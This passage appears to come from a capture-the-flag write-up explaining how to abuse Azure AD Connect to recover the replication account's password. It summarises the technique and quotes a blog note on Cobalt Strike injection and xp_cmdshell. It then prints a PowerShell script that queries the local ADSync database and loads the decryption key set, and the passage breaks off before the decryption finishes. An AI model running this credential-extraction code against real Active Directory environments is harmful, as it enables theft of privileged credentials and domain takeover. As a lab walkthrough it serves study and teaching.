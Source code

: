 ### Exploit

#### Theory

[This post](https://blog.xpnsec.com/azuread-connect-for-redteam/) does a really nice walkthrough of how to abuse Azure connect. The idea is that there is a user that is setup to handle replication of Active Directory to Azure. In the default case, that’s an account named like MSOL\_[somehex]. I’ll see shortly that’s not the case here.

It turns out mhope is able to connect to the local database and pull the configuration. I can then decrypt it and get the username and password for the account that handles replication.

#### Timing

On reviewing the blog post to write this, I see there’s an update:

> **Update 12/04/2020** - Due to changes in the way which Azure AD Sync now stores its keys, access to the service account (ADSync by default) or the Credential Manager of the service account is now required to decrypt the configuration. One way to work around this using tools such as Cobalt Strike is to simply inject into a process running under the ADSync process and continue with the above POC. Alternatively we can take advantage of the fact that the LocalDB instance is in-fact running as the “ADSync” user, meaning that a simple bit of `xp_cmdshell` magic is all we need to resume our decryption method. A new POC to leverage this can be found [here](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c).

New Azure AD instances are hardened such that only certain accounts can decrypt the password. The new POC doesn’t work here, and I’ll look at why in [Beyond Root](#beyond-root).

#### Practice

I’ll grab the POC code from the blog. I had to change the connection string to get this to connect (something like [this example](https://myitworld.azurewebsites.net/2015/12/14/access-sql-server-integrated-security-different-windows-credentials-powershell/) worked). My script looked like this:

```

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
```